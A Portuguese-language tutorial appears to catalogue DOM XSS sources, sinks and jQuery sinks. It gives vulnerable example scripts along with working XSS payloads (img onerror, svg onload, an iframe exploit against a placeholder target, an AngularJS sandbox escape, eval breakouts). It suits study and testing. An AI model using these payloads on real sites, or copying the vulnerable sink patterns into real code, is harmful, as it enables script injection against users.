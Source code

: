 ## Sources
É uma propriedade do Javascript que aceita/recebe input de dados. 
```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

## Sink
É uma função do Javascript ou um objeto DOM. A vulnerabilidade DOM ocorre quando um input é enviado do Source para o Sink e é executado de forma insegura. 
```
document.write()
document.writeln()
window.location
document.cookie
eval()
document.domain
WebSocket()
element.src
postMessage()
setRequestHeader()
FileReader.readAsText()
ExecuteSql()
sessionStorage.setItem()
document.evaluate()
JSON.parse()
element.setAttribute()
RegExp()
```
## jQuery Sink 
```
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```
## DOM XSS 
###Exemplo
```
+ URL com o parâmetro Search 
https://exemplo.com.br/?search=abcd
```
+ Javascript dentro do HTML
+ O payload é armazenado na função document.write (Sink) e processado pela função window.location.search (Sink)
+ Payload: ```"><svg onload=alert(1)>```
```
<section class=search>
   <form action=/ method=GET>
        <input type=text placeholder='Search the blog' name=search>
             <button type=submit class=button>Search</button>
   </form>
</section>
<script>
   function trackSearch(query) {

//O valor inserido no parâmetro Search é armazenado na função document.wirte
   document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
//O valor de Search é processado pela função window.location.search
   var query = (new URLSearchParams(window.location.search)).get('search');
   if(query) {
      trackSearch(query);
   }
</script>
```
### Exemplo com innerHTML
```
+ URL com o parâmetro Search
https://exemplo.com.br/?search=abcd
```
+ Javascript dentro do HTML
+ O payload é capturado pelo método innerHTML e processado pela função window.location.search
+ Payload: ```<img src=1 onerror=alert(1)>```
```
<script>
   function doSearchQuery(query) {
   document.getElementById('searchMessage').innerHTML = query;
}
   var query = (new URLSearchParams(window.location.search)).get('search');
       if(query) {
               doSearchQuery(query);
}
</script>
```
### Exemplo com botão "Voltar"
```
+ URL com o parâmetro returnPath
https://exemplo.com.br/feedback?returnPath=/
```
+ jQuery usa o parâmetro attr() para processar o valor do parâmetro returnPath
```
<script>
   $(function() {
      $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
 });
 </script>
```
### Exemplo com selector $() do jQuery
+ Adicione a url do site-alvo no código disponível [dom_xss_jquery.html](https://github.com/carineconstantino/hackingbr/blob/main/Resources/DOM-Exploit/dom_xss_jquery.html)
+ Ao funcionar, será aberto a tela de impressão da página vulnerável (onerror=print())
+ Payload
```
<html>
   <head>
      <h1>Teste DOM-XSS Selector $() jQuery</h1>
</head>
<body>
   <iframe src="https://site-alvo.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
</body>
</html>
```
### Exemplo com AngularJS atributo ng-app
+ URL com o parâmetro Search
```
https://exemplo.net/?search=abcd

O valor abcd é refletido na página dentro de aspas simples ''
```
+ Payload
```
{{$on.constructor('alert(1)')()}}
```
### Exemplo com valor refletido no json
+ URL com o parâmetro Search
```
https://exemplo.net/?search=abcd

O valor abcd é refletido na resposta do servidor dentro do formato json
```
+ O javascript que processa o valor inserido no parâemtro Searc usa a função eval()
+ Payload 
``` 
\"-alert(1)}//

\\"-alert(1)}//

<><img src=1 onerror=alert(1)>
```
